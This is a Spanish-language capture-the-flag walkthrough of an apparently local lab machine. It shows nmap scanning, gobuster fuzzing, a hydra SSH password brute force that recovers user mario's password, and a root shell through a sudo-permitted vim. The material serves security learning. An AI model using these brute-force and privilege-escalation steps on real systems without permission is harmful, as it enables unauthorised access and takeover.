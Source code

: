 Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos #nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

Como tenemos abiertos los puertos 22 y 80, vamos a comprobar las versiones y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHjaznpuQYsT/kxLXSVDFJGTtesV6UrUh5aNJhw+tAdr19MnZpuY/8e0gb+NXRebo5Dcv/DP1H+aLFHaS6+XCGw=
|   256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJW/dREGeklk/wsHXisOmbmVwP9zg7U8xS+OfHkxLF0Z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
No vemos nada que nos llame la atención así que empezaremos la enumeración del puerto 80, y como vemos que el título ya nos muestra que es la página principal de Apaches por lo que lanzamos #gobuster para ir haciendo fuzzing.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```
- `dir`: Indica que se realizará un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo a escanear.
- `-w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`: Especifica la lista de palabras clave a utilizar para la búsqueda de directorios. En este caso, se utiliza el archivo "directory-list-2.3-medium.txt" como lista de palabras clave.
- `-x php,txt,html`: Especifica las extensiones de archivo a buscar dentro de los directorios encontrados. En este caso, se buscarán archivos con extensiones ".php", ".txt" y ".html".
- 
```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 275]

```


Encontramos una página que nos llama la atención, que es **/secret.php**.

En la página http://172.17.0.2/secret.php encontramos un mensaje de lo que podemos pensar que **Mario** podría ser un usuario. Como tenemos el puerto 22 abierto, podríamos probar la intrusión por fuerza bruta con #hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l mario`: Especifica el nombre de usuario "mario" para el intento de inicio de sesión.
- `-P /usr/share/wordlists/rockyou.txt`: Especifica la ubicación del archivo de contraseñas a utilizar. En este caso, se utiliza el archivo "rockyou.txt" como lista de contraseñas.
- `ssh://172.17.0.2`: Indica el protocolo a utilizar (`ssh`) y la dirección IP del host objetivo (`172.17.0.2`). Esto establece el destino del intento de inicio de sesión mediante SSH.

Con #hydra encontramos la contraseña para el usuario *mario* por el puerto 22.
```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-11 11:20:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-11 11:20:36
```

Nos conectamos por ssh como el usuario mario y tenemos acceso a la máquina.

```bash
ssh mario@172.17.0.2
```

```bash
❯ ssh mario@172.17.0.2

mario@172.17.0.2's password: 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@49a6455029e0:~$ 
```

Una vez dentro para escalar privilegios, vamos a probar si hay algún archivo que podamos ejecutar como mario pero con permisos de root.

```bash
sudo -l
```

```bash
mario@49a6455029e0:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 49a6455029e0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 49a6455029e0:
    (ALL) /usr/bin/vim
```

Encontramos que podemos ejecutar el editor de texto vim, y desde ahí se puede lanzar una bash con permiso privilegiado, poniendo :!/bin/bash.

```bash
sudo vim -c ':!/bin/bash'
```

Y con esto ya tenemos una consola como root.

```bash
root@49a6455029e0:/home/mario# whoami
root
```

